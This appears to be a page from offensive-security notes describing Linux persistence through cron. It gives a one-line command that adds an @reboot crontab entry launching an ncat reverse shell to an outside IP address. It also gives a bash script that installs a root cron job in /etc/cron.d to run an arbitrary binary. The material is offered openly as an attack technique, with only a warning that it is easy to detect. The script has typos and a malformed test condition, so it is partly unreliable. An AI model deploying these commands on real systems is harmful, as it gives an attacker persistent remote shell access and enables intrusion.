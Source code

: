 # ⚠ Crontab Reverse Shell (Not OPSEC)

{% hint style="danger" %}
cron jobs are obviously visible in crontab, so this method is not recommended.
{% endhint %}

```
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

### Script:

```
#!/bin/bash

if [ $1 -z ] 
then
        echo "$0 <binary file>"
        echo "NOTE: The binary ile shoud be in user's home directory e.g /home/user/binary_file"
        exit 1
fi

echo "Eneter the time in the form of m(minute) h(hour) dm(day of month) m(month) dw(day of week)"
echo "NOTE: If u want to put 0 for any input put * instead of 0"
read val

HOME=$HOME
#echo "Enter the username for which u want to create cron job"
#read user

echo "[+] Creating cron job..."
sleep 0.2
f=$1
cron_file=${f%.*}
#echo $cron_file
#echo ${f%.*}
echo  "$val root $HOME/$1" | sudo tee /etc/cron.d/$cron_file
```

\\
